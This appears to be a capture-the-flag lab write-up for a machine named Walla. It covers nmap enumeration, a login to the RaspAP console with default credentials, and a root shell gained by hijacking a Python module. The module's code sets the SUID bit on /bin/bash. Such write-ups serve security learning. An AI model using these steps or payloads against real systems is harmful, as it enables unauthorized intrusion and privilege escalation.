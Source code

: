 # Walla

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:22 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown
```

Telnet is enabled, which is always great. Ran a detailed `nmap` scan too:

```
$ sudo nmap -p 22,23,25,53,422,8091,42042 -sC -sV -O --min-rate 3000 192.168.197.97
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:24 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
```

### Weak Creds --> Web Console

I took a look at port 8081 first, and found that it had a HTTP login:

<figure><img src="../../../.gitbook/assets/image (3987).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:secret` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (3657).png" alt=""><figcaption></figcaption></figure>

This is running RaspAP, which is a wireless router software. We can find the version by heading to 'About RaspAP':

<figure><img src="../../../.gitbook/assets/image (3942).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits for this:

```
$ searchsploit raspap       
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50224.py
----------------------------------------------------------- ---------------------------------
```

However, we don't actually need any exploits because within the 'System' tab, there's a Console present:

<figure><img src="../../../.gitbook/assets/image (3749).png" alt=""><figcaption></figcaption></figure>

A reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (1830).png" alt=""><figcaption></figcaption></figure>

Grab the user flag from the home directory of `walter`.

## Privilege Escalation

### Sudo Privileges --> Module RCE

I ran a `linpeas.sh` scan to enumerate for me. Here's the interesting output:

```
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
    
[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d 
You have write privileges over /lib/systemd/system/raspapd.service
```

The `wifi_reset.py` file looks the easiest to exploit:

```
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

This is pretty easy to exploit. We can create a script `wificontroller.py` and place it within the `/home/walter` directory. Here's the contents of it:

```python
import os
os.system("chmod u+s /bin/bash")
```

Then, we can attempt to run the `wifi_reset.py` script and easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (2079).png" alt=""><figcaption></figcaption></figure>
